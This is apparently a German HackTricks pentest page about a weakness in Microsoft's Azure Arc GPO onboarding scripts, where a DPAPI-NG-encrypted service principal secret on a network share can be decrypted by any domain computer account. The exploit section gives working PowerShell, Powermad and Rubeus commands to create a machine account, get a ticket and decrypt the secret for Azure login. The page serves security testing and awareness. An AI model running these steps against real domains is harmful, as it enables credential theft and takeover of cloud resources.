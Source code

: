 # Az - Arc verwundbares GPO Bereitstellungsskript

{{#include ../../../banners/hacktricks-training.md}}

### Identifizierung der Probleme

Azure Arc ermöglicht die Integration neuer interner Server (verbundene Domänenserver) in Azure Arc mithilfe der Group Policy Object-Methode. Um dies zu erleichtern, stellt Microsoft ein Bereitstellungstoolkit zur Verfügung, das für den Onboarding-Prozess erforderlich ist. Im ArcEnableServerGroupPolicy.zip-Datei finden sich die folgenden Skripte: DeployGPO.ps1, EnableAzureArc.ps1 und AzureArcDeployment.psm1.

Beim Ausführen des DeployGPO.ps1-Skripts werden die folgenden Aktionen durchgeführt:

1. Erstellt die Azure Arc Servers Onboarding GPO innerhalb der lokalen Domäne.
2. Kopiert das EnableAzureArc.ps1 Onboarding-Skript in den vorgesehenen Netzwerkfreigabe, die für den Onboarding-Prozess erstellt wurde und auch das Windows-Installationspaket enthält.

Beim Ausführen dieses Skripts müssen Systemadministratoren zwei Hauptparameter angeben: **ServicePrincipalId** und **ServicePrincipalClientSecret**. Darüber hinaus sind weitere Parameter wie die Domäne, der FQDN des Servers, der die Freigabe hostet, und der Freigabename erforderlich. Weitere Details wie die Mandanten-ID, die Ressourcengruppe und andere notwendige Informationen müssen ebenfalls dem Skript bereitgestellt werden.

Ein verschlüsseltes Geheimnis wird im AzureArcDeploy-Verzeichnis auf der angegebenen Freigabe unter Verwendung der DPAPI-NG-Verschlüsselung generiert. Das verschlüsselte Geheimnis wird in einer Datei mit dem Namen encryptedServicePrincipalSecret gespeichert. Ein Beweis dafür findet sich im DeployGPO.ps1-Skript, wo die Verschlüsselung durch den Aufruf von ProtectBase64 mit $descriptor und $ServicePrincipalSecret als Eingaben erfolgt. Der Descriptor besteht aus den SID der Domain Computer und der Domain Controller-Gruppe, wodurch sichergestellt wird, dass das ServicePrincipalSecret nur von den Sicherheitsgruppen der Domain Controllers und Domain Computers entschlüsselt werden kann, wie in den Kommentaren des Skripts vermerkt.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Wir haben die folgenden Bedingungen:

1. Wir haben erfolgreich das interne Netzwerk durchdrungen.
2. Wir haben die Fähigkeit, ein Computer-Konto innerhalb von Active Directory zu erstellen oder die Kontrolle darüber zu übernehmen.
3. Wir haben einen Netzwerkfreigabe entdeckt, die das AzureArcDeploy-Verzeichnis enthält.

Es gibt mehrere Methoden, um ein Maschinenkonto in einer AD-Umgebung zu erhalten. Eine der häufigsten ist die Ausnutzung des Maschinenkonto-Quotas. Eine andere Methode besteht darin, ein Maschinenkonto durch verwundbare ACLs oder verschiedene andere Fehlkonfigurationen zu kompromittieren.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Sobald ein Maschinenkonto erlangt wurde, ist es möglich, sich mit diesem Konto zu authentifizieren. Wir können entweder den Befehl runas.exe mit dem netonly-Flag verwenden oder Pass-the-Ticket mit Rubeus.exe nutzen.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Durch das Speichern des TGT für unser Computer-Konto im Speicher können wir das folgende Skript verwenden, um das Geheimnis des Dienstprinzipals zu entschlüsseln.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativ können wir [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) verwenden.

An diesem Punkt können wir die verbleibenden Informationen sammeln, die benötigt werden, um eine Verbindung zu Azure herzustellen, aus der ArcInfo.json-Datei, die sich im selben Netzwerkfreigabe wie die encryptedServicePrincipalSecret-Datei befindet. Diese Datei enthält Details wie: TenantId, servicePrincipalClientId, ResourceGroup und mehr. Mit diesen Informationen können wir Azure CLI verwenden, um uns als kompromittierter Dienstprinzipal zu authentifizieren.

## Referenzen

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
